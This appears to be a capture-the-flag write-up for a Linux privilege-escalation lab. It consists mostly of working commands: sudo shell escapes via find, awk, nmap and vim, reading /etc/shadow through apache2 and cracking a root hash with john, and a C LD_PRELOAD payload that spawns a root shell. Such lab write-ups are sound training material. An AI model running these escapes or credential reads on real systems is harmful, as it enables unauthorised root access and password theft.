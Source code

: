 #### What's the full file path of the sensitive file you discovered?

{% hint style="success" %}
`/backups/supersecretkeys/id_rsa`
{% endhint %}

## Task 8 Sudo (Shell Escaping)

```bash
sudo -l
# User TCM may run the following commands on this host:
#     (root) NOPASSWD: /usr/sbin/iftop
#     (root) NOPASSWD: /usr/bin/find
#     (root) NOPASSWD: /usr/bin/nano
#     (root) NOPASSWD: /usr/bin/vim
#     (root) NOPASSWD: /usr/bin/man
#     (root) NOPASSWD: /usr/bin/awk
#     (root) NOPASSWD: /usr/bin/less
#     (root) NOPASSWD: /usr/bin/ftp
#     (root) NOPASSWD: /usr/bin/nmap
#     (root) NOPASSWD: /usr/sbin/apache2
#     (root) NOPASSWD: /bin/more
sudo find /bin -type f -name nano -exec /bin/sh \;
sudo awk 'BEGIN{system("/bin/sh")}'
echo 'os.execute("/bin/sh")' > shell.nse && sudo nmap --script=shell.nse
sudo vim -c '!sh'
```

## Task 9 Sudo (Abusing Intented Functionality)

```bash
sudo -l
sudo apache2 -f /etc/shadow
# Invalid Command 'root:...'
```

```bash
echo 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::' > shadow.txt
john --format=sha512crypt --wordlist=/usr/share/wordlists/nmap.lst shadow.txt
```

## Task 10 Sudo (LD\_PRELOAD)

```bash
sudo -l
```

```bash
vim x.c
# #include <stdlib.h>
# #include <unistd.h>

# void _init() {
#     unsetenv("LD_PRELOAD");
#     setgid(0);
#     setuid(0);
#     system("/bin/sh");
# }
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```
